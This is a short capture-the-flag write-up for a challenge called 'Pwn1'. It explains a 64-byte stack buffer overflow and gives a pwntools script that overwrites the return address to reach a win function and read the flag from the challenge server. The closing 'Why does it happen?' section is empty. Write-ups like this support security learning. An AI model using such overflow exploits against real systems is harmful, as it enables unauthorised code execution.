

# Pwn1
We are given a connection to a server<br>
First of all we want to decompile the binary. <br>
In <i>main</i> function the program takes input from user then returns fake flag. <br>


We can also see that there is another function called <i>win</i> which returns shell. <br>

### Solution
This code takes 80 bytes from user and tries to put it in 64 byte char table. That leads to overflow and we can use it to redirect code execution to <i>win</i> function. <br>
So we can just enter payload consisting of 72 bytes of padding and 8 bytes long address of <i>win</i> function<br> to overwrite instruction pointer and redirect code execution <br>
<br>
### Code
```
from pwn import *

host = 'challs.n00bzunit3d.xyz'
port = '35932'

context.binary = 'pwn1'

padding = 72*'a'
address = pack(0x40124a)
payload = padding.encode('utf-8') + address

conn = remote(host,port)

conn.sendline(payload + b'cat flag.txt')
print(conn.recv())
print(conn.recv())
print(conn.recv())
```
### Why does it happen?
